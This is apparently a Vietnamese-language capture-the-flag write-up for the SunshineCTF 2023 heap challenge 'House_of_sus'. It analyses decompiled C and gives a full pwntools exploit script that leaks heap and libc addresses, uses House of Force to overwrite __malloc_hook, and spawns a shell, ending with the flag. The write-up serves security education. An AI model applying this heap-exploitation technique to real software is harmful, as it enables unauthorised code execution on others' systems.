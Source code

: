 # House_of_sus (SunshineCTF 2023)

tiếp tục với 1 chall vế kĩ thuật **House of Force** 

## ida 

vì chall khá dài nên ta vừa xem ida vừa phân tích luôn 

### main

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int rounds; // [rsp+1Ch] [rbp-4h]

  printf("\n%s\n", (const char *)sussie);
  printf("%s", (const char *)sussy);
  seed = get_seed();
  srand(seed);
  join_game();
  for ( rounds = 10; rounds; --rounds )
  {
    v3 = display_menu();
    if ( v3 == 3 )
    {
      call_emergency_meeting();
    }
    else
    {
      if ( v3 > 3 )
        goto LABEL_10;
      if ( v3 == 1 )
      {
        do_tasks();
      }
      else
      {
        if ( v3 != 2 )
        {
LABEL_10:
          puts("Nice try... IMPOSTER... sus");
          return 0;
        }
        report();
      }
    }
  }
  return 0;
}
```

### join_game 

```c 
void __cdecl join_game()
{
  char *__ptr; // [rsp+8h] [rbp-8h]

  __ptr = (char *)malloc(8uLL);
  printf("\nWelcome Red, you will be joining game: %p\n", __ptr - 16);
  free(__ptr);
  generate_players();
}
``` 

chà chall cho ta luôn địa chỉ heap 

### do_tasks 

```c 
void __cdecl do_tasks()
{
  int v0; // eax

  v0 = rand();
  printf("\n%s\n", tasks[v0 % 5]);
  tasks_completed[0] = 1;
}
```

option 1 ko có gì đặt biệt, chủ yếu cho tasks_completed[0] = 1 để ta hoàn thành task 

### report
```c 
void __cdecl report()
{
  if ( tasks_completed[0] )
  {
    printf("\nIf you want to game the system before you vote... here's the seed: %lu\n", seed);
    vote();
  }
  else
  {
    puts("\nDo your tasks!");
  }
}
```

ở option 2 ta debug thì thấy seed là địa chỉ libc => leak libc 

### call_emergency_meeting
```c
void __cdecl call_emergency_meeting()
{
  char tmp; // [rsp+7h] [rbp-19h] BYREF
  ulong resp_size; // [rsp+8h] [rbp-18h] BYREF
  char *response; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("\nWhy'd you call an emergency meeting?! I was doing my tasks >:(");
  printf("\nUh oh, you've been called out, how many characters will your response be? ");
  __isoc99_scanf("%lu%c", &resp_size, &tmp);
  printf("Enter your response: ");
  response = (char *)malloc(resp_size);
  fgets(response, 0x40, stdin);
  printf("\nYou responded: %s\n", response);
  vote();
}
```

option 3 cho phép ta nhập size và malloc(), sau đó nhập vào chunk 

nhưng mà khoan đã, để ý thì thấy hàm fgets cho phép ta nhập 0x40byte, giả sử chunk ta có size < 0x40 thì lúc này sẽ có lỗi BOF => ow size Top chunk => HOF

### be_imposter 

```c 
void __cdecl be_imposter(char *file)
{
  char *args[2]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  args[0] = file;
  args[1] = 0LL;
  execve(file, args, 0LL);
}
```
chà ở đây có thêm hàm tạo shell cho mình nè, ta chỉ cần set /bin/sh cho rdi là được

## Exploit 

- trước tiên cứ leak heap vs libc trước  
```python 
p.recvuntil(b'game: ')
heap = int(p.recvline()[:-1], 16)
print(heap)
print(hex(heap))

p.sendlineafter(b'meeting', b'1')
p.sendlineafter(b'meeting', b'2')
p.recvuntil(b'seed: ')
libc_leak = int(p.recvline()[:-1], 10)
libc.address = libc_leak - 0x44390
print(hex(libc.address))
print(hex(libc_leak))
p.sendlineafter(b'(You)', b'1')
```

- dùng HOF để thay size Top chunk thành 0xffffffffffffffff  

```python 
def add(size, data):
    p.sendlineafter(b'meeting', b'3')
    p.sendlineafter(b'>:(', str(size))
    p.sendline(data)
    p.sendlineafter(b'(You)', b'1')

add(0x20, b'a'*40 + p64(0xffffffffffffffff))
``` 

![image](https://github.com/gookoosss/CTF/assets/128712571/59e330b6-f9f9-46dc-848c-8ae0552e7e85)


- có libc rồi nên ý tưởng có mình là ow hook, chọn __malloc_hook 
- áp dụng công thức tính offset mà mình đã research ở chall trước để có offset 
- lần malloc(offset) ta sẽ lưu /bin/sh\0 vào đây  => tạo 1 chunk chứa /bin/sh
- ow __malloc_hook thành hàm be_imposter 
- cuối cùng ta malloc() với size là addr của chunk chứa /bin/sh và lấy shell 

```python 
offset = libc.sym.__malloc_hook - (heap + 0x1070) - 0x8
add(offset, "/bin/sh\0")
add(0x20, p64(exe.sym['be_imposter']))
p.sendlineafter(b'meeting', b'3')
p.sendlineafter(b'>:(', str(heap + 0x1070))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/628b4b44-569f-4f20-91ea-58f8e08581fd)


## script  

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./house_of_sus_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process([exe.path])
gdb.attach(p, gdbscript = '''
b*0x0000000000401857
c
''')

input()

p.recvuntil(b'game: ')
heap = int(p.recvline()[:-1], 16)
print(heap)
print(hex(heap))

p.sendlineafter(b'meeting', b'1')
p.sendlineafter(b'meeting', b'2')
p.recvuntil(b'seed: ')
libc_leak = int(p.recvline()[:-1], 10)
libc.address = libc_leak - 0x44390
print(hex(libc.address))
print(hex(libc_leak))
p.sendlineafter(b'(You)', b'1')

def add(size, data):
    p.sendlineafter(b'meeting', b'3')
    p.sendlineafter(b'>:(', str(size))
    p.sendline(data)
    p.sendlineafter(b'(You)', b'1')

add(0x20, b'a'*40 + p64(0xffffffffffffffff))
offset = libc.sym.__malloc_hook - (heap + 0x1070) - 0x8
add(offset, "/bin/sh\0")
add(0x20, p64(exe.sym['be_imposter']))
p.sendlineafter(b'meeting', b'3')
p.sendlineafter(b'>:(', str(heap + 0x1070))

p.interactive()

```

## Flag 

sun{4Re_y0U_th3_!mP0st3r_v3rY_su55!}
